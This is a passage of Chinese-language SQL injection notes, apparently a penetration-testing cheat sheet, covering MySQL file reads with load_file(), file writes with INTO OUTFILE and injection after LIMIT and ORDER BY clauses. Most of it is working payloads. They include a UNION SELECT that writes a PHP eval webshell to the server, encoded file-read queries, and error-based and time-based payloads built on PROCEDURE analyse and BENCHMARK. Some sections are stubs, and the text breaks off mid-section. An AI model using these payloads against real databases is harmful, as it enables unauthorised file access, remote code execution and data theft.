 ### 使用load_file()读取文件

```
需要：
路径，文件名，FILE权限，文件可读，目录可写，文件不能已存在，文件小于max_allowed_packet 字节，文件不满足上述条件，函数返回NUll

判断:
1、必须有权限读取并且文件必须完全可读 
and (select count(*) from mysql.user)>0/* 如果结果返回正常,说明具有读写权限。
and (select count(*) from mysql.user)>0/* 返回错误，应该是管理员给数据库帐户降权了。
2、欲读取文件必须在服务器上 
3、必须指定文件完整的路径 
4、欲读取文件必须小于 max_allowed_packet 

写文件：
select into outfile写入小马：
union select '<?php eval($_POST[cmd])?>'  into outfile 'c://a.php';
payload：
UNION SELECT DATABASE() INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\1';
UNION SELECT DATABASE() INTO OUTFILE 'C:/phpstudy/WWW/test/1';
编码处理：
SELECT LOAD_FILE(CHAR(67,58,92,92,84,69,83,84,46,116,120,116))  #ASCII码
SELECT LOAD_FILE(0x433a5c5c544553542e747874)    #16进制
```

### 使用into outfile注射

```
pass
```

## 高级注入技术（limit，order，二次注入）

### limit后面注入：

```
支持报错payload:
procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);

不支持报错payload：
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)

select BENCHMARK(40000000,SHA1(1));

本机跑14s：
select BENCHMARK(50000000,SHA1(1));

limit后的注入，使用analyse()只能5.0.0<mysql<5.6.6的版本
http://vinc.top/2016/06/20/mysql-order-by-%E5%90%8E%E6%B3%A8%E5%85%A5/
https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html
http://www.freebuf.com/articles/web/57528.html
http://vinc.top/2017/04/01/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91mysql-limit-%E6%B3%A8%E5%85%A5/	(good)
https://rdot.org/forum/showpost.php?p=36186&postcount=30
```
### order by后面注入：
```
http://xdxd.love/2016/03/07/order-by%E6%B3%A8%E5%85%A5%E7%82%B9%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F/
判断是否存在注入：
id+asc
id+desc
order by盲注:
```